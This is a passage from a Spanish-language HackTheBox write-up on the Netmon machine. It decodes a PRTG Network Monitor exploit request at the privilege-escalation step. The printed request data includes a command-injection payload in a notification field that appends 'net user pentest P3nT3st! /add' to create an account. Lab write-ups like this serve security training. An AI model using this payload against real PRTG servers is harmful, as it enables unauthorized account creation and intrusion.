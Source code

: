 
## Escalada de Privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si revisamos el exploit que tenemos, vemos que este realiza una petición a la ruta `myaccount.htm?tabid=2` y envia una data que se encuentra `urlencodeada`.

![](/assets/images/HTB/htb-writeup-Netmon/netmon2.PNG)


Usaremos una sesión interactiva de `php` para urldecodear la data y ver mejor que es lo que envia.


```php
❯ php --interactive
Interactive mode enabled
php > echo urldecode("name_=create_user&tags_=&active_=1&schedule_=-1%7CNone%7C&postpone_=1&comments=&summode_=2&summarysubject_=%5B%25sitename%5D+%25summarycount+Summarized+Notifications&summinutes_=1&accessrights_=1&accessrights_=1&accessrights_201=0&active_1=0&addressuserid_1=-1&addressgroupid_1=-1&address_1=&subject_1=%5B%25sitename%5D+%25device+%25name+%25status+%25down+(%25message)&contenttype_1=text%2Fhtml&customtext_1=&priority_1=0&active_17=0&addressuserid_17=-1&addressgroupid_17=-1&message_17=%5B%25sitename%5D+%25device+%25name+%25status+%25down+(%25message)&active_8=0&addressuserid_8=-1&addressgroupid_8=-1&address_8=&message_8=%5B%25sitename%5D+%25device+%25name+%25status+%25down+(%25message)&active_2=0&eventlogfile_2=application&sender_2=PRTG+Network+Monitor&eventtype_2=error&message_2=%5B%25sitename%5D+%25device+%25name+%25status+%25down+(%25message)&active_13=0&sysloghost_13=&syslogport_13=514&syslogfacility_13=1&syslogencoding_13=1&message_13=%5B%25sitename%5D+%25device+%25name+%25status+%25down+(%25message)&active_14=0&snmphost_14=&snmpport_14=162&snmpcommunity_14=&snmptrapspec_14=0&messageid_14=0&message_14=%5B%25sitename%5D+%25device+%25name+%25status+%25down+(%25message)&senderip_14=&active_9=0&url_9=&urlsniselect_9=0&urlsniname_9=&postdata_9=&active_10=0&active_10=10&address_10=Demo+EXE+Notification+-+OutFile.ps1&message_10=%22C%3A%5CUsers%5CPublic%5Ctester.txt%3Bnet+user+pentest+P3nT3st!+%2Fadd%22&windowslogindomain_10=&windowsloginusername_10=&windowsloginpassword_10=&timeout_10=60&active_15=0&accesskeyid_15=&secretaccesskeyid_15=&arn_15=&subject_15=&message_15=%5B%25sitename%5D+%25device+%25name+%25status+%25down+(%25message)&active_16=0&isusergroup_16=1&addressgroupid_16=200%7CPRTG+Administrators&ticketuserid_16=100%7CPRTG+System+Administrator&subject_16=%25device+%25name+%25status+%25down+(%25message)&message_16=Sensor%3A+%25name%0D%0AStatus%3A+%25status+%25down%0D%0A%0D%0ADate%2FTime%3A+%25datetime+(%25timezone)%0D%0ALast+Result%3A+%25lastvalue%0D%0ALast+Message%3A+%25message%0D%0A%0D%0AProbe%3A+%25probe%0D%0AGroup%3A+%25group%0D%0ADevice%3A+%25device+(%25host)%0D%0A%0D%0ALast+Scan%3A+%25lastcheck%0D%0ALast+Up%3A+%25lastup%0D%0ALast+Down%3A+%25lastdown%0D%0AUptime%3A+%25uptime%0D%0ADowntime%3A+%25downtime%0D%0ACumulated+since%3A+%25cumsince%0D%0ALocation%3A+%25location%0D%0A%0D%0A&autoclose_16=1&objecttype=notification&id=new&targeturl=%2Fmyaccount.htm%3Ftabid%3D2");

```